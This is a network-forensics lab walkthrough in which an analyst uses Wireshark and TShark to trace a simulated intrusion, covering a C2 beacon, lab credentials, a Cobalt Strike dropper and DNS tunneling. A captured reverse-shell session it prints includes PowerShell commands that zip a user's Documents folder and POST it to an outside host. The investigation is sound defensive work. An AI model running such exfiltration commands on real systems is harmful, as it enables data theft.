# Advanced Packet Analysis

**Room:** Advanced Packet Analysis
**Difficulty:** Medium
**Category:** Network Forensics / Packet Analysis
**Tools used:** Wireshark, TShark, openssl, base64, sha256sum

## Scenario

I'm picking up as an analyst at Nexus Financial Group, and this room is the payoff for the earlier Zeek and Zui rooms in the same series. By this point I already know the shape of the intrusion from log analysis alone: a beacon from `WKST-FINANCE-04` (`10.14.22.88`) out to `194.165.16.56`, a 5.3 MB staging exfil to `185.213.154.201`, and lateral movement traced through `WKST-IT-ADMIN-02` toward the Domain Controller.

What Zeek and Zui couldn't tell me is what was actually *inside* those sessions. That's what this room is for — the PCAP is the final piece of evidence, and every task here is really just "logs told you X happened, now prove what X actually contained."

All of the evidence was preloaded on the attached VM:

```
/home/ubuntu/captures/investigation.pcap
/home/ubuntu/scripts/
/home/ubuntu/references/
```

---

## Task 1 — Triage: Is the scan real, and is the beacon real?

Two correlated alerts fired on the Finance perimeter sensor:

```
[1:2010935:3] ET SCAN Internal Scan Behavior, Multiple Destinations (SYN)
   src: 10.14.22.88   sig: tcp_scan_internal

[1:2027865:1] ET POLICY Outbound Connection to Known-Bad Indicator
   src: 10.14.22.88   dst: 194.165.16.56   asn: AS44477
```

### Confirming the SYN scan

First alert first. I opened the PCAP in Wireshark and narrowed it down to SYN-only packets from the suspect host, targeting the alerted port:

```
ip.src == 10.14.22.88 and tcp.flags.syn == 1 and tcp.flags.ack == 0 and tcp.dstport == 445
```



What came back was a long list of SYN packets, one per destination, all hitting port 445 (SMB), with no completed three-way handshake on the majority of them. That's the textbook signature of a TCP SYN (stealth) scan — the source fires a SYN, reads the response (SYN/ACK or RST) to determine port state, and never bothers finishing the handshake because it doesn't actually want a connection.

I expanded the TCP flags on one of the packets just to be sure I wasn't misreading it:



`SYN: Set`, `ACK: Not set` — confirmed. This maps cleanly to MITRE ATT&CK T1046 (Network Service Discovery). No legitimate client touches this many SMB hosts in a four-minute window, so I ruled out an application bug pretty quickly.

### Counting unique destinations properly

The Wireshark packet pane will happily lie to you by omission here — some hosts get hit more than once if the scanner retries, so eyeballing the packet count isn't reliable. TShark with a dedupe pass is the correct way to count this:

```bash
ubuntu@tryhackme:~/captures$ tshark -r investigation.pcap -Y "ip.src == 10.14.22.88 and tcp.flags.syn == 1 and tcp.flags.ack == 0 and tcp.dstport == 445" -T fields -e ip.dst | sort -u | wc -l
87
```

**87 unique destination IPs.**



### Confirming the beacon is real HTTP, not noise

Second alert: is `194.165.16.56` a real beacon or just background noise? A blunt `ip.addr == 194.165.16.56` filter shows every packet involved in the conversation — SYN, SYN/ACK, ACK, data, FIN, the works — so it massively over-counts if you're trying to answer "how many beacon requests happened." What I actually wanted was `http.request` specifically, since some of the sessions to that host were plain HTTP and some were TLS (I'll get to those in Task 6).

```bash
ubuntu@tryhackme:~/captures$ tshark -r investigation.pcap -Y "ip.src == 10.14.22.88 and ip.dst == 194.165.16.56 and http.request" -T fields -e frame.time -e http.request.method -e http.request.uri -e http.host | wc -l
23
```

**23 plain HTTP beacon requests.**

---

## Task 2 — Proving the C2 channel

Threat intel enrichment on the host header already pointed at a known C2 framework, but I wanted the packet content to actually prove it, not just take the enrichment's word for it.

```
http.request and ip.dst == 194.165.16.56
```

Expanding one of the GET requests in the packet detail pane showed three things that made this an easy call:



1. **Every single request hits the exact same URI** — `/api/v2/check`. Real APIs from a real client don't concentrate on one endpoint like that.
2. **The User-Agent claims to be IE11 on Windows 10** — a combination that stopped being a thing that real browsers send years ago.
3. **The Cookie field carries a base64 blob** — way more than a session-check endpoint should ever need.

To confirm this was consistent across the whole capture and not a one-off, I asked TShark for the unique combination of fields across every beacon:

```bash
ubuntu@tryhackme:~$ tshark -r /home/ubuntu/captures/investigation.pcap -Y "http.request and ip.dst == 194.165.16.56" -T fields -e ip.src -e http.host -e http.request.uri -e http.user_agent | sort -u
10.14.22.88    update.softpatch-cdn.com    /api/v2/check    Mozilla/5.0 (compatible; MSIE 11.0; Windows NT 10.0)
```

One line. One source, one host, one URI, one User-Agent, repeated identically on every check-in. That rigidity is the tell — a human browsing an API doesn't look like that, but an implant hard-coded with a check-in template does.

### Following the stream

Then I followed one of the TCP streams end to end to see what the server was actually sending back:

```bash
ubuntu@tryhackme:~$ tshark -r /home/ubuntu/captures/investigation.pcap -q -z "follow,tcp,ascii,2"
===================================================================
Follow: tcp,ascii
Filter: tcp.stream eq 2
Node 0: 10.14.22.88:51000
Node 1: 194.165.16.56:80
202
GET /api/v2/check HTTP/1.1
Host: update.softpatch-cdn.com
User-Agent: Mozilla/5.0 (compatible; MSIE 11.0; Windows NT 10.0)
Cookie: session=eyJpbXBsYW50X2lkIjoiRk5DLTA0In0=
Connection: keep-alive

    118
HTTP/1.1 200 OK
Server: nginx
Content-Type: application/json
Content-Length: 38

{"status":"ok","cmd":"d2hvYW1p"}
===================================================================
```



That `cmd` field is the smoking gun. A legitimate check-in endpoint returns a status code, not an encoded instruction for the client to go execute. So I decoded it:

```bash
ubuntu@tryhackme:~$ echo "d2hvYW1p" | base64 -d
whoami
```

**Beacon URI:** `/api/v2/check`
**Decoded command:** `whoami`

The operator's framework is issuing recon commands over what looks, at a glance, like a routine outbound HTTP check-in. That's textbook C2-over-HTTP.



---

## Task 3 — Stream Reassembly: credentials, shells, and delivery chains

This task is where raw packets stop being abstract and start being "here is a password, here is a typed command."

### FTP credentials in the clear

```bash
ubuntu@tryhackme:~/captures$ tshark -r investigation.pcap -Y 'ftp.request.command == "USER" or ftp.request.command == "PASS"' -T fields -e ftp.request.command -e ftp.request.arg
USER    administrator
PASS    S3cur3P@ssw0rd!
```



`administrator` : `S3cur3P@ssw0rd!` — sent over the wire in plaintext, because vsFTPd doesn't care about TLS unless you tell it to. Full password rotation candidate right there.

### The reverse shell

`tcp.port == 4444` narrowed things down to one stream — 4444 is such a classic offensive-tooling port that it's basically a red flag by itself. I grabbed the stream index and followed the whole thing instead of just eyeballing the packet list:

```bash
ubuntu@tryhackme:~/captures$ tshark -r investigation.pcap -Y "tcp.port == 4444" -T fields -e tcp.stream | sort -u
112

ubuntu@tryhackme:~/captures$ tshark -r investigation.pcap -q -z "follow,tcp,ascii,112"
===================================================================
Follow: tcp,ascii
Filter: tcp.stream eq 112
Node 0: 10.14.22.88:49999
Node 1: 194.165.16.78:4444
    682
Microsoft Windows [Version 10.0.19045.3803]
(c) Microsoft Corporation.

C:\Users\jsmith\Desktop>whoami
corp\jsmith

C:\Users\jsmith\Desktop>ipconfig /all | findstr IPv4
   IPv4 Address. . . . . . . . . . . : 10.14.22.88

C:\Users\jsmith\Desktop>net user administrator
User name                    Administrator
Account active                Yes
Password last set             14/02/2025 09:14:22

C:\Users\jsmith\Desktop>powershell -Command "Compress-Archive -Path C:\Users\jsmith\Documents\* -DestinationPath C:\Temp\docs.zip"

C:\Users\jsmith\Desktop>powershell -Command "Invoke-WebRequest -Uri 'http://185.213.154.201/upload' -Method POST -InFile C:\Temp\docs.zip"
===================================================================
```



This is genuinely the clearest single artifact in the whole investigation. The operator dropped into an interactive shell as `jsmith`, checked their local host identity, checked the local admin account status, then ran a two-step exfil: `Compress-Archive` to zip up the entire Documents folder, followed immediately by `Invoke-WebRequest` POSTing that zip out to `185.213.154.201/upload`. That upload is the same 5.3 MB transfer flagged all the way back in the Zui room — packet analysis just confirmed *exactly* what left the building and how.

**PowerShell command that packaged the Documents folder:**
```
powershell -Command "Compress-Archive -Path C:\Users\jsmith\Documents\* -DestinationPath C:\Temp\docs.zip"
```

### The multi-stage delivery redirect

Last piece for this task: a 302 redirect chain, which attackers use so blocking one domain doesn't kill the whole delivery pipeline.

```bash
ubuntu@tryhackme:~$ tshark -r /home/ubuntu/captures/investigation.pcap -Y "http.response.code == 302" -T fields -e frame.time -e ip.src -e http.location
Nov 14, 2025 03:16:20.022500000 UTC    203.0.113.50    https://files.cdn-delivery.net/winservice-patch-4891.pdf
```



**Malicious filename:** `winservice-patch-4891.pdf` (spoiler for the next task: it isn't actually a PDF).

---

## Task 4 — Extracting real evidence: files, hashes, threat feed cross-reference

Analysis is nice, but the actual deliverable in a real IR handoff is hashes and evidence packages, not screenshots.

### Pulling the objects out

I went with TShark's `--export-objects` flag instead of clicking through the GUI dialog, mostly because it's scriptable and doesn't rely on me remembering to click "Save" on the right row:

```bash
ubuntu@tryhackme:~$ mkdir -p /home/ubuntu/extracted
ubuntu@tryhackme:~$ cd /home/ubuntu/captures/
ubuntu@tryhackme:~/captures$ tshark -r investigation.pcap --export-objects http,/home/ubuntu/extracted/
ubuntu@tryhackme:~/extracted$ ls -la
total 7256
-rw-r--r-- 1 ubuntu ubuntu       2 index(1).php
-rw-r--r-- 1 ubuntu ubuntu      49 index.php
-rw-r--r-- 1 ubuntu ubuntu 5567321 upload
-rw-r--r-- 1 ubuntu ubuntu 1843200 winservice-patch-4891.pdf
```

Quick honest note: I tried the GUI export first, hit Save on the two rows I cared about, and the folder came up completely empty afterward — no error, just nothing landed on disk. Not sure if I fat-fingered the save path or the dialog silently failed. Switched to `--export-objects` and it worked first try, so that's the method I'd recommend if you're scripting this anyway.

`winservice-patch-4891.pdf` is flagged by Wireshark's MIME detection as `application/x-dosexec` — a Windows PE hiding behind a `.pdf` extension. `upload` is the 5.3 MB POST body, i.e. the staged exfil archive. I renamed both to their real types before hashing, since the extension is just a label and downstream tooling (sandboxes, AV, hashing utilities) should be handling these by content, not by name:

```bash
ubuntu@tryhackme:~/extracted$ mv winservice-patch-4891.pdf winservice-patch-4891.exe
ubuntu@tryhackme:~/extracted$ mv upload backup_archive.zip
ubuntu@tryhackme:~/extracted$ sha256sum winservice-patch-4891.exe backup_archive.zip
4ec66c72e7d80620891118cb32206771ac37a227b6e77a2549b046748d8c234b  winservice-patch-4891.exe
d17a83cf82a3cf4e5b3891e8b0923d00b22181e3079624cec60ca105c0eaf369  backup_archive.zip
```



### Cross-referencing the threat feed

```bash
ubuntu@tryhackme:~/extracted$ grep "4ec66c72e7d80620891118cb32206771ac37a227b6e77a2549b046748d8c234b" /home/ubuntu/references/threat_feed.txt
4ec66c72e7d80620891118cb32206771ac37a227b6e77a2549b046748d8c234b  Cobalt Strike  2025-11-10  high

ubuntu@tryhackme:~/extracted$ grep "d17a83cf82a3cf4e5b3891e8b0923d00b22181e3079624cec60ca105c0eaf369" /home/ubuntu/references/threat_feed.txt
d17a83cf82a3cf4e5b3891e8b0923d00b22181e3079624cec60ca105c0eaf369  Staging Archive  2025-11-10  high
```



Both hashes hit. The dropper is a known Cobalt Strike sample, and the exfil archive matches a "Staging Archive" entry that first showed up as file metadata all the way back in the Zeek room — this is the exact moment where the hash from a log line becomes a hash you've verified against actual file bytes.

**Executable SHA256:** `4ec66c72e7d80620891118cb32206771ac37a227b6e77a2549b046748d8c234b`
**Archive SHA256:** `d17a83cf82a3cf4e5b3891e8b0923d00b22181e3079624cec60ca105c0eaf369`
**Malware family:** Cobalt Strike

### Bonus: HTTP Basic Auth credential and a packaged evidence PCAP

Not strictly asked for by this task's questions, but the walkthrough material covered it and I ran it anyway since I'd need it either way:

```bash
ubuntu@tryhackme:~$ tshark -r /home/ubuntu/captures/investigation.pcap -Y "http.authorization" -T fields -e ip.src -e http.host -e http.authorization
10.14.22.88    intranet.nfg.local    Basic YWRtaW46cGFzczEyMw==

ubuntu@tryhackme:~$ echo "YWRtaW46cGFzczEyMw==" | base64 -d
admin:pass123
```

Another cleartext-adjacent credential — Basic Auth is trivially decodable, so `admin:pass123` on the internal intranet portal goes on the rotation list too.

I also cut a focused evidence PCAP for the exfil traffic specifically, rather than handing IR the entire multi-gigabyte capture:

```bash
ubuntu@tryhackme:~$ mkdir -p /home/ubuntu/evidence
ubuntu@tryhackme:~$ tshark -r /home/ubuntu/captures/investigation.pcap -Y "ip.addr == 185.213.154.201" -w /home/ubuntu/evidence/exfil_traffic.pcap
ubuntu@tryhackme:~$ capinfos /home/ubuntu/evidence/exfil_traffic.pcap
Number of packets:   3,986
File size:           5,918 kB
Capture duration:    2.013856 seconds
SHA256:              3369fd8d8d3b8e21ff29618bda3fe11e821cefdfb8fcc44b91217d85a8418e33
```

---

## Task 5 — TLS handshake metadata: proving encrypted sessions belong to the same C2

I still had a chunk of sessions to `194.165.16.56` that were TLS, not plain HTTP — the ones I skipped back in Task 1/2. Encrypted doesn't mean blind; the handshake itself leaks plenty.

```
tls and ip.addr == 194.165.16.56
```



The Client Hello in this capture doesn't carry a useful SNI value, so SNI wasn't going to help me here. That pushed me toward two other handshake artifacts: the server certificate's Subject CN, and the JA4 fingerprint of the Client Hello.

### Certificate subject

Grabbed the certificate bytes and pushed them through `openssl x509` to decode the subject exactly as it appears on the wire:

```bash
ubuntu@tryhackme:~/captures$ tshark -r investigation.pcap -Y "ip.src == 194.165.16.56 and tls.handshake.certificate" -T fields -e tls.handshake.certificate | sed -n '1p' | tr -d ':' | xxd -r -p | openssl x509 -inform DER -noout -subject
subject=C = US, O = Microsoft, CN = update.softpatch-cdn.com
```



`O = Microsoft` on a cert issued for `update.softpatch-cdn.com` is a nice touch of social engineering aimed at anyone glancing at the cert in a browser padlock — it's not actually a Microsoft-issued cert, it's just claiming the org name. Same domain that showed up as the Host header on the plaintext HTTP beacon, which ties the encrypted sessions back to the same infrastructure.

**Certificate Subject CN:** `update.softpatch-cdn.com`

### JA4 fingerprint

```bash
ubuntu@tryhackme:~/captures$ tshark -r investigation.pcap -Y "ip.dst == 194.165.16.56 and tls.handshake.type == 1" -T fields -e ip.src -e ip.dst -e tls.handshake.ja4 | sort -u
10.14.22.88    194.165.16.56    t13d040400_98dd3bb0ed34_34f36fd09b12
```

**JA4 fingerprint:** `t13d040400_98dd3bb0ed34_34f36fd09b12`

Every single Client Hello sent to this host produces the exact same JA4 value. That's a fingerprint of the TLS *client library and configuration* the implant is using, independent of domain or cert — so even if the operator rotates `update.softpatch-cdn.com` to a new domain next week, the JA4 value should still catch it as long as they're using the same implant build.

---

## Task 6 — Protocol abuse: tunneling and port mismatches

Last analytical task, and the one that felt the most "hidden in plain sight."

### DNS tunneling

Classic tunneling tells: long high-entropy subdomains, oversized TXT responses, high query frequency against one parent domain.

```
dns.qry.name matches "^[a-zA-Z0-9]{25,}\\."
```


Every match was a 25+ character random-looking label glued onto the same parent domain, landing roughly every two seconds like clockwork — no legitimate app lookup pattern looks like that.

**Parent domain:** `exfil.fastsync-cdn.net`

I also pulled the TXT record responses to confirm data was flowing back inbound, not just outbound:

```bash
ubuntu@tryhackme:~/captures$ tshark -r investigation.pcap -Y "dns.qry.type == 16" -T fields -e frame.time -e ip.src -e dns.qry.name -e dns.txt
Nov 14, 2025 03:25:17.621510000 UTC    10.14.22.88    7p6mn2v7k2pqfzdijmpjaq7tinu3vqxllqgrqmnu.exfil.fastsync-cdn.net
Nov 14, 2025 03:25:17.626510000 UTC    8.8.8.8         7p6mn2v7k2pqfzdijmpjaq7tinu3vqxllqgrqmnu.exfil.fastsync-cdn.net    yzbcszg7itzpkkigwfnqakhp6wri72gusadkg3avgxi4ydytptzq4b5ffi2ok67s4udepsfmycuj5s5zmivsckftfynn5pd56kdnnsbq3z5za6ui43vomvgk75ey2an3meulsceh6qwxwikjgbfrijnzn6h2sff7xfnc...
```

Long base64-looking TXT payloads coming back — that's the C2 channel's inbound direction, riding on what looks like a normal TXT lookup to anything not paying close attention.

### ICMP tunneling

```
icmp.type == 8 and frame.len > 100
```
